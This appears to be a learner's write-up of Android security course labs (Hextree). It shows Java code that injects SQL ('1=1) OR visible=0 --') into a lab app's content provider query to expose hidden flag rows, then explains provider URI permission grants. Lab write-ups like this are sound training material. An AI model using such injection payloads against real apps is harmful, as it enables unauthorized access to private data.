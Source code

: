 Example on code cause SQlite error:

```java
Cursor cursor = getContentResolver().query(
        Uri.parse("content://io.hextree.flag32/flags"),
        null, "#)@#rd32",
        null, null
);
```

The Error code:

![](/Images/hextreeCourseImages/image5.png)

I noticed the our code putted in () so i bypass it via this code:

```java
Cursor cursor = getContentResolver().query(
        Uri.parse("content://io.hextree.flag32/flags"),
        null, "1=1) OR visible=0 --",
        null, null
);
```

---

# **Sharing Provider Access Permissions**

Sharing access to Content Provider is a central feature of Android. It is used all the time to give other apps access, without giving direct file access. A typical `<provider>` looks like this:

```xml
<provider
    android:name=".providers.Flag33Provider1"
    android:authorities="io.hextree.flag33_1"
    android:enabled="true"
    android:exported="false"
    android:grantUriPermissions="true" />
```

The provider is generally not exported with `android:exported="false"` but the attribute `android:grantUriPermissions="true"` is set. This means the provider cannot be directly interacted with. But the app can allow another app to query the provider, when sending an Intent with a flag such as [`GRANT_READ_URI_PERMISSION`](https://developer.android.com/reference/android/content/Intent#FLAG_GRANT_READ_URI_PERMISSION).
